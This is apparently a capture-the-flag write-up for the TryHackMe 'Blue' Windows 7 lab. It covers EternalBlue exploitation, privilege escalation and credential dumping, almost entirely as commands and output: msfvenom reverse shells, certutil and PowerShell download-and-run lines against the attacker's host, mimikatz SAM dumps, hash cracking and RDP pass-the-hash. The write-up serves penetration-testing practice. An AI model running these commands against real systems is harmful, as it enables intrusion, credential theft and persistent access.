



#tryhackme #windows #nmap #crackmapexec #searchsploit #MS17-010 #eternal-blue #metasploit #psexec #certutil #powershell-empire #potato-attacks #tokenvator #privilege-token #smbserver #mimikatz #shadow-copy #john #rdp #powershell 

The virtual machine used in this room (Blue) can be downloaded for offline usage from [https://darkstar7471.com/resources.html](https://darkstar7471.com/resources.html)[](https://darkstar7471.com/resources.html

## Recon
---
### Nmap

```bash
┌──(kali㉿kali)-[~/thm/blue]
└─$ cat blue.nmap
# Nmap 7.94 scan initiated Tue Jun 13 08:52:19 2023 as: nmap -sVC -p- -Pn -T4 -vv -oA blue 10.10.12.45
Increasing send delay for 10.10.12.45 from 0 to 5 due to 1357 out of 3391 dropped probes since last increase.
Increasing send delay for 10.10.12.45 from 5 to 10 due to 11 out of 18 dropped probes since last increase.
Nmap scan report for 10.10.12.45
Host is up, received user-set (0.29s latency).
Scanned at 2023-06-13 08:52:20 EDT for 1234s
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE            REASON          VERSION
135/tcp   open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open                syn-ack ttl 127 Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 127
| rdp-ntlm-info:
|   Target_Name: JON-PC
|   NetBIOS_Domain_Name: JON-PC
|   NetBIOS_Computer_Name: JON-PC
|   DNS_Domain_Name: Jon-PC
|   DNS_Computer_Name: Jon-PC
|   Product_Version: 6.1.7601
|_  System_Time: 2023-06-13T13:13:14+00:00
| ssl-cert: Subject: commonName=Jon-PC
| Issuer: commonName=Jon-PC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-06-12T12:52:05
| Not valid after:  2023-12-12T12:52:05
| MD5:   28bf:3aa3:850e:0db1:7b7c:c00d:361a:a37d
| SHA-1: dcd6:4a51:5f15:c68a:31bf:13af:2193:88ad:e51a:9bbf
| -----BEGIN CERTIFICATE-----
| MIIC0DCCAbigAwIBAgIQVJF3eB7AgqdK5Q0caNN6NjANBgkqhkiG9w0BAQUFADAR
| MQ8wDQYDVQQDEwZKb24tUEMwHhcNMjMwNjEyMTI1MjA1WhcNMjMxMjEyMTI1MjA1
| WjARMQ8wDQYDVQQDEwZKb24tUEMwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEK
| AoIBAQCvlJ/tfen6NUSiKybzofoVmjvrslmVRPSClkz9SmoWbkmFWGC47Hw0Q9Qc
| KQ/VAj3sLP+jqXjrrtl+cAxJHqUl9LjmXPXZ+sa6VcOsZJGpfMQrtqeNk/5YSgUr
| z5albourOGjef8W0rFEidz5ioVYJngqnogD9vUaYXcP2UPx3qnN4sFIwRS6hzRa7
| gvti4TJ1v3G5P41iblT3BPITkVFLt4Wm+DD0UwVGEG00S2J7400WZHp+7HGzWCas
| Mq3/yw0VLYI23x46g6QY4TC88gPNaMm7Q8bs5I0NerEaGaDbQMaiTPdPFr69VHow
| nzLoSJbu/lxLHGSRUiTPT8lKONKrAgMBAAGjJDAiMBMGA1UdJQQMMAoGCCsGAQUF
| BwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQUFAAOCAQEAVhRCpNkApELub4YD
| 73okZHZOtWT8RquFvV7FPqxifqWrbSUBF466piulY2/mv/3RgqzlRGYnpA6JrZu4
| gSZTPSfv2xECMCMpBYroM7ocxkoxdQEtEd5rtQdfnkZE1bGGUXqmBwvVW0AByh/T
| r6hmMu5FhK7fz9eyxgoloBaQ15VV78Dc4wc+8UJtdqrnsPOFqiUPfbuSFrTrLQSK
| Jk9Sj/Yud1nxUmnVl1RCn5gXTWegcREGNvZF+8+byaWGH4IhxuIaqIssRUAE0euK
| kmc8KA1p3GOSYzVARrB0WQKtMBDuRoIw7THgn7NGFqYhplEyP4JgPYfPt9JT2yAG
| ugXcAQ==
|_-----END CERTIFICATE-----
|_ssl-date: 2023-06-13T13:13:21+00:00; +28s from scanner time.
49152/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49158/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49160/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   2:1:0:
|_    Message signing enabled but not required
|_clock-skew: mean: 1h00m28s, deviation: 2h14m10s, median: 27s
| nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:2a:f3:65:99:7f (unknown)
| Names:
|   JON-PC<00>           Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   JON-PC<20>           Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   02:2a:f3:65:99:7f:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 35078/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 48486/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 54957/udp): CLEAN (Timeout)
|   Check 4 (port 26342/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-06-13T08:13:13-05:00
| smb2-time:
|   date: 2023-06-13T13:13:13
|_  start_date: 2023-06-13T12:52:03

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun 13 09:12:54 2023 -- 1 IP address (1 host up) scanned in 1234.41 seconds
```

Scan port 445 with vuln script to confirm

```bash
┌──(kali㉿kali)-[~/thm/blue]
└─$ nmap -p 445 10.10.12.45 --script vuln -vv
...
PORT    STATE SERVICE      REASON
445/tcp open  microsoft-ds syn-ack

Host script results:
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-054: false
...
```

### CrackMapExec

NULL session is available

```bash
┌──(kali㉿kali)-[~/thm/blue]
└─$ cme smb 10.10.12.45 -u '' -p '' --users
SMB         10.10.12.45     445    JON-PC           [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:JON-PC) (domain:Jon-PC) (signing:False) (SMBv1:True)
SMB         10.10.12.45     445    JON-PC           [+] Jon-PC\:
SMB         10.10.12.45     445    JON-PC           [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
SMB         10.10.12.45     445    JON-PC           [-] Error enumerating domain users using dc ip 10.10.12.45: socket connection error while opening: [Errno 111] Connection refused
SMB         10.10.12.45     445    JON-PC           [*] Trying with SAMRPC protocol
```

Guest login without password is not available

```bash
┌──(kali㉿kali)-[~/thm/blue]
└─$ cme smb 10.10.12.45 -u 'guest' -p '' -M ms17-010
SMB         10.10.12.45     445    JON-PC           [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:JON-PC) (domain:Jon-PC) (signing:False) (SMBv1:True)
SMB         10.10.12.45     445    JON-PC           [-] Jon-PC\guest: STATUS_ACCOUNT_DISABLED
```

## Gain Access
---

### Exploit manually

#### Identify exploit

Google Search `Windows 7 Professional 7601 Service Pack 1 x64 exploit`

Result:

```
MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
```

It's an old exploit, just use searchsploit

```bash
┌──(kali㉿kali)-[~/thm/blue]
└─$ searchsploit MS17-010
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                 |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Microsoft Windows - 'EternalRomance'/'EternalSynergy'/'EternalChampion' SMB Remote Code Execution (Metasploit) (MS17-010)                                                      | windows/remote/43970.rb
Microsoft Windows - SMB Remote Code Execution Scanner (MS17-010) (Metasploit)                                                                                                  | windows/dos/41891.rb
Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)                                                                                               | windows/remote/42031.py
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)                                                                           | windows/remote/42315.py
Microsoft Windows 8/8.1/2012 R2 (x64) - 'EternalBlue' SMB Remote Code Execution (MS17-010)                                                                                     | windows_x86-64/remote/42030.py
Microsoft Windows Server 2008 R2 (x64) - 'SrvOs2FeaToNt' SMB Remote Code Execution (MS17-010)                                                                                  | windows_x86-64/remote/41987.py
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

#### Use exploit

###### Working exploit

Google  `working eternal blue exploit github`

> https://github.com/3ndG4me/AutoBlue-MS17-010

> [!NOTE] Python capabilities
> Some exploits won't work for latest python versoin, follow this guide to install old python3 versions
> https://ngangasn.com/how-to-install-python-on-kali-linux/
> 
> - After installation, remember to upgrade pip
> ```bash
> sudo python3.8 -m pip install --upgrade pip
> ```

```bash
┌──(kali㉿kali)-[~/thm/blue/eternalblue]
└─$ python3.8 -m venv venv

┌──(kali㉿kali)-[~/thm/blue/eternalblue]
└─$ source ./venv/bin/activate

┌──(venv)─(kali㉿kali)-[~/thm/blue/eternalblue]
└─$ python -V
Python 3.8.0

┌──(venv)─(kali㉿kali)-[~/thm/blue/AutoBlue-MS17-010]
└─$ pip install --upgrade pip

┌──(venv)─(kali㉿kali)-[~/thm/blue/AutoBlue-MS17-010]
└─$ pip install -r requirements.txt
```

No named pipes to use

```bash
┌──(blue-OE27Ga6J)─(kali㉿kali)-[~/thm/blue/AutoBlue-MS17-010]
└─$ python3 eternal_checker.py 10.10.167.139
[*] Target OS: Windows 7 Professional 7601 Service Pack 1
[!] The target is not patched
=== Testing named pipes ===
[*] Done
```

> [!Notes] If namepipes is available
> This version of the exploit is great for targeting systems that have named pipes available to avoid crashing the target.
> 
> ```bash
> python zzz_exploit.py $TARGET_IP
> ```

Generate shellcode

```bash
cd shellcode

# Comiple kernal shellcode
nasm -f bin eternalblue_kshellcode_x64.asm -o sc_x64_kernel.bin

# Generate shellcode
msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=tun0 LPORT=1111

# Merge shellcode
cat sc_x64_kernel.bin sc_x64_msf.bin > shell.bin
```

> Or just use `./shell_prep.sh`

Listen for revshell

```bash
rlwrap -r -f . nc -nlvp 1111
```

Exploit 

> [!NOTE] Note
> **Try multiple times for exploit to work!** If it still fail, check this [writeup](https://rizemon.github.io/posts/blue-htb/)
> 
> The writeup requires python 2 - [Encountered Issues > Make python2 working](app://obsidian.md/Encountered%20Issues#Make%20python2%20working)

```bash
┌──(venv)─(kali㉿kali)-[~/thm/blue/AutoBlue-MS17-010/shellcode]
└─$ cd ..

┌──(venv)─(kali㉿kali)-[~/thm/blue/AutoBlue-MS17-010]
└─$ python eternalblue_exploit7.py 10.10.104.105 ./shellcode/shell.bin
shellcode size: 1232
numGroomConn: 13
Target OS: Windows 7 Professional 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
done
```

```bash
┌──(kali㉿kali)-[~/thm/blue]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.29.178] 49170
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

###### Failed Attempts

Without using **metasploit**. choose the exploit with highest serial number which will be latest

```bash
# Clone exploit
searchsploit -m 42315

# Check the code, its default username and password is NULL
vi 42315.py

# Create virtual environment for the exploit
pipenv shell

# Its documents tells us to download mysmb.py
wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/42315.py -O mysmb.py
```

It failed

```bash
┌──(kali㉿kali)-[~/thm/blue]
└─$ python3 42315.py 10.10.167.139
Target OS: Windows 7 Professional 7601 Service Pack 1
Not found accessible named pipe
Done
```

In the code, it shows that windows 7 service pack 2 was not tested, try another exploit then



Use `42031.py` instead

```bash
┌──(blue-OE27Ga6J)─(kali㉿kali)-[~/thm/blue]
└─$ vi 42031.py
```



After looking at the docstrings, found this repository

> https://github.com/worawit/MS17-010/tree/eafb47d715fe38045c9ea6dc4cb75ca0ef5487ce

But it's not working too

---

### Exploit with metasploit

> `exploit/windows/smb/ms17_010_psexec` will not work!

```bash
sudo msfconsole
search eternal blue
use exploit/windows/smb/ms17_010_eternalblue
set lhost tun0
set rhosts 10.10.12.45
run
```

It is normal to fail several times

Waited for `3+` minutes to succeed



## Escalate
---

### Check Token Privileges

I have few privilege tokens by default

```bash
C:\ProgramData>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeTcbPrivilege                Act as part of the operating system       Enabled
SeAuditPrivilege              Generate security audits                  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled

C:\ProgramData>reg save hklm\sam sam
reg save hklm\sam sam
ERROR: A required privilege is not held by the client.
```

Search : `SeAssignPrimaryTokenPrivilege get all tokens`

> https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens

### Psexec get all privilege tokens

Since powershell is not working for this box, try **psexec.exe** 

Which is a legit program from internalsuite signed by microsoft

Prepare **PsExec64.exe**

```bash
┌──(kali㉿kali)-[/tmp/www]
└─$ ln -s /opt/sectools/win/Sysinternals/PsExec64.exe .

┌──(kali㉿kali)-[~/thm/www]
└─$ python3 -m http.server 80
```

Prepare revshell on smb share

```bash
mkdir smb && cd smb
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=1112 -f exe > rev.exe
smbserver.py s . -smb2support
rlwrap -r -f . nc -nlvp 1112
```

At Target:

> Using [LOLBas](https://lolbas-project.github.io/#/download) to download file

```bash
C:\Windows\system32>certutil -urlcache -split -f http://10.11.19.145/PsExec64.exe psexec.exe
certutil -urlcache -split -f http://10.11.19.145/PsExec64.exe psexec.exe
****  Online  ****
  000000  ...
  0cb7c0
CertUtil: -URLCache command completed successfully.
        
C:\Windows\system32>psexec -accepteula -s cmd.exe /c \\10.11.19.145\s\rev.exe
psexec -accepteula -s cmd.exe /c \\10.11.19.145\s\rev.exe
```

```bash
┌──(kali㉿kali)-[~/thm/blue]
└─$ rlwrap -r -f . nc -nlvp 1112
listening on [any] 1112 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.145.150] 52186
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

Check privilege tokens

```bash
C:\Windows\system32>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State
=============================== ========================================= ========
SeAssignPrimaryTokenPrivilege   Replace a process level token             Disabled
SeLockMemoryPrivilege           Lock pages in memory                      Enabled
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeTcbPrivilege                  Act as part of the operating system       Enabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Enabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Enabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Enabled
SeCreatePagefilePrivilege       Create a pagefile                         Enabled
SeCreatePermanentPrivilege      Create permanent shared objects           Enabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled
SeAuditPrivilege                Generate security audits                  Enabled
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege         Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege   Increase a process working set            Enabled
SeTimeZonePrivilege             Change the time zone                      Enabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Enabled
```

### Juicy Potato

Since `SeImpersonatePrivilege` and `SeAssignPrimaryTokenPrivilege` tokens are available, we can use potato methods

**Godpotato** and **SweetPotato** did not work on this machine (perhaps the system is too old)

> [Writeup](https://jlajara.gitlab.io/Potatoes_Windows_Privesc) about potatos

```bash
C:\>certutil -urlcache -split -f http://10.11.19.145/JuicyPotato.exe juicy.exe
certutil -urlcache -split -f http://10.11.19.145/JuicyPotato.exe juicy.exe
****  Online  ****
  000000  ...
  054e00
CertUtil: -URLCache command completed successfully.

C:\>juicy -p cmd.exe -a "/c whoami > C:\who.txt" -t * -l 55143
juicy -p cmd.exe -a "/c whoami > C:\who.txt" -t * -l 55143
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 55143
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

### Use **powershell empire**

> Powershell will go wrong when windows version is too old

Start Empire server and listener then generate stager

```bash
./ps-empire server
./ps-empire client

usestager multi_launcher
set Listener http
generate
```

Execute stager

```bash
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -noP -sta -w 1 -enc  SQBmACgAJABQAFMAVgBlAHIAcwBpAG8Ab...
```

> In some cases, will need to specify powershell's full path 

After that, just use powershell empire's powerful modules

### Tokenvator

From **PowerSharpPack**

> Not working on this machine because its powershell version is too old****

```bash
iex(new-object net.webclient).downloadstring("http://10.11.19.145/Invoke-Tokenvator.ps1")
Invoke-Tokenvator GetSystem
Invoke-Tokenvator Sample_Processes
```

Use exe version if powershell failed to ececute

```bash
certutil -urlcache -split -f http://10.11.19.145/Tokenvator.exe token.exe
token help

# Grant token to dump sam hive
token Enable_Privilege /Privilege:SeBackupPrivilege

# or get all tokens
token GetSystem
```

### Metasploit

```bash
# From shell to meterpreter
sessions -u $ID

# Migrate to x64 or spoolsvc.exe winlogon.exe or explorer.exe or to SYSTEM process
ps
migrate $PID
```

## Cracking
---

### Dump NTLM Hashes

> https://www.thehacker.recipes/ad/movement/credentials/dumping

For some reasons, I don't have the `SeBackupPrivilege` on SYSTEM to dump `sam` and `system` hive

#### Living Off the land

##### Dump Registry

> https://lolbas-project.github.io/#/credentials

Use method from [[#Psexec]] to get full privilege tokens

Host smb server

```bash
┌──(kali㉿kali)-[~/thm/smb]
└─$ smbserver.py s . -smb2support
```

After that, dump and transfer the `sam`, `system` and `security` hive (Security can be ignored since the machine did not join a domain)

```bash
reg save HKLM\SECURITY \\10.11.19.145\s\security.bak && reg save HKLM\SYSTEM \\10.11.19.145\s\system.bak && reg save HKLM\SAM \\10.11.19.145\s\\sam.bak
```

Extract hashes with `secretsdump.py`

```bash
┌──(kali㉿kali)-[~/thm/smb]
└─$ secretsdump.py -sam sam -system system LOCAL
Impacket v0.10.1.dev1+20230607.11222.cefe192 - Copyright 2022 Fortra

[*] Target system bootKey: 0x55bd17830e678f18a3110daf2c17d4c7
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
[*] Cleaning up...
```

##### Volume Shadow Copy 

> https://www.thehacker.recipes/ad/movement/credentials/dumping/ntds#volume-shadow-copy-vssadmin

If the registry dump method doesn't work, try this (Failed on this machine)

```bash
# Create Shadow Copy
vssadmin create shadow /for=C:

copy $ShadowCopyName\Windows\System32\config\SAM C:\Windows\Temp\sam.save
copy $ShadowCopyName\Windows\System32\config\SYSTEM C:\Windows\Temp\system.save

# Remove shadow copy
vssadmin delete shadows /shadow=$ShadowCopyId
```

#### Mimikatz

Use mimikatz's binary version since I can't get powershell work on this old machine

Host mimikatz.exe

```bash
┌──(kali㉿kali)-[~/thm/www]
└─$ ln -s /opt/sectools/win/windows-resources/mimikatz/x64/mimikatz.exe

┌──(kali㉿kali)-[~/thm/www]
└─$ python3 -m http.server 80
```

On target

```bash
certutil -urlcache -split -f http://10.11.19.145/mimikatz.exe mimi.exe
mimi
```

```bash
mimikatz # lsadump::sam
Domain : JON-PC
SysKey : 55bd17830e678f18a3110daf2c17d4c7
Local SID : S-1-5-21-2633577515-2458672280-487782642

SAMKey : c74ee832c5b6f4030dbbc7b51a011b1e

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 31d6cfe0d16ae931b73c59d7e0c089c0

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : Jon
  Hash NTLM: ffb43f0de35be4d9917ac0cc8ad57f8d

mimikatz #
```

### Crack NTLM Hashes

```bash
echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > sam.hash
john --wordlist=/opt/wordlists/rockyou.txt sam.hash --format=NT
```

> alqfna22

## Find flags!
---

### Find file using cmd

```bash
dir /s *flag*
```

Result

```bash
 Volume in drive C has no label.
 Volume Serial Number is E611-0B66

 Directory of C:\

03/17/2019  02:27 PM                24 flag1.txt
               1 File(s)             24 bytes

 Directory of C:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent

03/17/2019  02:26 PM               482 flag1.lnk
03/17/2019  02:30 PM               848 flag2.lnk
03/17/2019  02:32 PM             2,344 flag3.lnk
               3 File(s)          3,674 bytes

 Directory of C:\Users\Jon\Documents

03/17/2019  02:26 PM                37 flag3.txt
               1 File(s)             37 bytes
```

> It will halt, just CTRL + C and get a new shell

### Flag1

```bash
C:\Windows\system32>cd C:\
cd C:\
C:\>type flag1.txt
type flag1.txt
flag{access_the_machine}
```

### Flag2

```bash
C:\Windows\system32>type C:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag2.lnk
C:\Windows\system32>type C:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag2.lnk
type C:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag2.lnk
LF  h+汖h+汖=]'PO :+00/C:\R1MWindows:M*pWindowsV1qNSystem32:qN*         System32P1Mconfig:M*    configX2'M flag2.txtﾍM
                                                                                                                      M
                                                                                                                       *flag2.txtS-Rf
                                                                                                                                     C:\Windows\System32\config\flag2.txt6..\..\..\..\..\..\..\Windows\System32\config\flag2.txtC:\Windows\System32\config(      1SPSXFL8C&m`Xjon-pc̴HCKzk:d
                                                                          )d4̴HCKzk:d
                                                                                    )d4
```

```bash
C:\Windows\system32>type C:\Windows\System32\config\flag2.txt
type C:\Windows\System32\config\flag2.txt
flag{sam_database_elevated_access}
```

### Flag3

```bash
C:\Windows\system32>type C:\Users\Jon\Documents\flag3.txt
type C:\Users\Jon\Documents\flag3.txt
flag{admin_documents_can_be_valuable}
```

## ETC
---

### Enable RDP 

> Source: https://0xsp.com/offensive/red-team-cheatsheet/

> Failed on this machine

Ensure the rdp is enabled

```bash
# Enable RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

# Add user to rdp group
net localgroup "Remote Desktop Users" Administrator /add

# Add firewall exceptions
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

Administrator account is disabled

```bash
┌──(kali㉿kali)-[~/thm/blue]
└─$ cme smb 10.10.10.218 -u 'Administrator' -H '31d6cfe0d16ae931b73c59d7e0c089c0'

[*] completed: 100.00% (1/1)
SMB         10.10.10.218    445    JON-PC           [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:JON-PC) (domain:Jon-PC) (signing:False) (SMBv1:True)

[*] completed: 100.00% (1/1)
SMB         10.10.10.218    445    JON-PC           [-] Jon-PC\Administrator:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_ACCOUNT_DISABLED
```

Activate it

```bash
net user Administrator /active:yes
```

There's an account restriction

```bash
┌──(kali㉿kali)-[~/thm/blue]
└─$ cme smb 10.10.10.218 -u 'Administrator' -H '31d6cfe0d16ae931b73c59d7e0c089c0'
SMB         10.10.10.218    445    JON-PC           [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:JON-PC) (domain:Jon-PC) (signing:False) (SMBv1:True)
SMB         10.10.10.218    445    JON-PC           [-] Jon-PC\Administrator:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_ACCOUNT_RESTRICTION
```

`STATUS_ACCOUNT_RESTRICTION` typically means :
- NTLM is disabled (kerberos only)
- Restricted Admin Mode Is Enabled

The machine did not have kerberos enabled, 

Disable `RestrictedAdmin` mode

```bash
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

xFree RDP Pass The Hash

```bash
xfreerdp /u:Administrator /pth:31d6cfe0d16ae931b73c59d7e0c089c0 /v:10.10.10.218 /cert:ignore /tls-seclevel:0
```